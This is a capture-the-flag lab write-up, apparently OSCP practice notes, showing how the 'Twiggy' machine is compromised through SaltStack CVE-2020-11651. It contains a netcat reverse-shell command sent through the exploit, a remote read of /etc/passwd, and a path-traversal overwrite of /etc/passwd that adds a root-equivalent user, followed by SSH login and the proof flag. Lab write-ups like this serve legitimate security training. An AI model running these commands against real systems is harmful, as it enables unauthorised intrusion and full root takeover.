


**Start 13:28 06-09**

---
```
192.168.166.62
```
## Recon

==Nmap==
As always we start of by doing recon with `nmap`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 192.168.166.62 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 07:29 EDT
Nmap scan report for 192.168.166.62
Host is up (0.017s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.89 seconds
```

It appears that there's a total of 4 ports open. 
I added the host under `twiggy.oscp` to my `/etc/hosts` file.

Let's check out what's running.

## 80/TCP - HTTP

I went to the website and found the following screen:


Here I noticed that only one link was useful, the `Log in` link which brought me to the `/admin` endpoint.


I tried some default creds such as `admin - admin` but got no further. Instead I checked out the `8000` port for now.


## 8000/TCP - HTTP

Heading to this page I found the following:


By checking out the `headers` I was able to find out that uses the `salt-api` on `X-Upstream`.



I did some research on this particular version and found some interesting info:


==Exploit - FAIL==
Since we are not yet authenticated the 1st one seems more interesting to us. I then proceeded to look up ready-made exploits for this CVE and [found one](https://github.com/dozernz/cve-2020-11651):


I followed the instructions mentioned and got ready to exploit. 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Now that my listener is listening I use the exploit.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python CVE-2020-11651.py 192.168.166.62 master 'nc 192.168.45.243 4444 -e "/bin/bash"'

Attempting to ping master at 192.168.166.62
Retrieved root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906124113496153', 'tag': 'salt/run/20240906124113496153'}. Looks promising!
```

Unfortunately enough it threw me an error which I had to research. I found out that it was due to the fact that the packages in `salt` I was using were already deprecated, meaning I had to create a `virtual env` where I could manually select the correct packages. But beforehand I had to install `Python 3.7` with the following technique:

```bash
sudo apt update
sudo apt install build-essential libssl-dev zlib1g-dev libncurses5-dev libgdbm-dev libnss3-dev libsqlite3-dev libreadline-dev libffi-dev

wget https://www.python.org/ftp/python/3.7.13/Python-3.7.13.tgz
tar -xf Python-3.7.13.tgz
cd Python-3.7.13

./configure --enable-optimizations
make -j "$(nproc)"
sudo make altinstall
```

Once all these commands were issued I could now start up a `venv`:

```bash
python3.7 -m venv env
source env/bin/activate
```

Now that the `env` has been activated I could use `sed` to modify the `core.py` file.

```bash
kali@kali:~$ python3 -m venv env

kali@kali:~$ . ./env/bin/activate

(env) kali@kali:~$ pip install distro salt

(env) kali@kali:~$ sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py

(env) kali@kali:~$ sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

This wouldn't work for some reason...

Off to a particular bad start.

## Retracing

Since I wouldn't get a shell I decided to check out whether I could still issue commands using the previously found `PoC`. I checked out the argument options:


I noticed the `-r` flag meaning we can try to read a file like `/etc/passwd` for example. I decided to set it up and try it out:

```bash
python3 exploit.py --master 192.168.248.62 -r /etc/passwd
```


Indeed it worked! I also noticed there's a way to `upload` files using the exploit which I will leverage to insert a new user into the `/etc/passwd` file. I'll give the user the following creds `hacked - 1234`. I'll have to first use `openssl` to encrypt the password and then add it to the end of the file.

```bash
┌──(kali㉿kali)-[~]
└─$ openssl passwd 1234   
$1$RycphDiZ$IWncJI4gWPGrxGPuowStT0
```

I then used the following command to add the new user to the end of the file, I gave the new user the same privileges as the `root` user:



Now that I had modified the file I could get to uploading it:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py --master 192.168.248.62 --upload-src passwd --upload-dest ../../../../../../etc/passwd
```


I notice the last line where it tells me the data has successfully been written to `/etc/passwd` meaning I can now try to `SSH` into the machine using my creds.

```
hacked
1234
```

## 22/TCP - SSH

I log in to `SSH` and instantly get `root` privileges:


I can now easily get the flag, since it is in the same directory I land in.

```bash
[root@twiggy ~]# ls -l
total 4
-rw-r--r-- 1 root root 33 Sep  9 10:33 proof.txt
[root@twiggy ~]# cat proof.txt 
558d69dcbb65ab8dee0a40be604829d6
```


---

**Finished 17:04 09-09**

[^Links]: [[OSCP Prep]] 
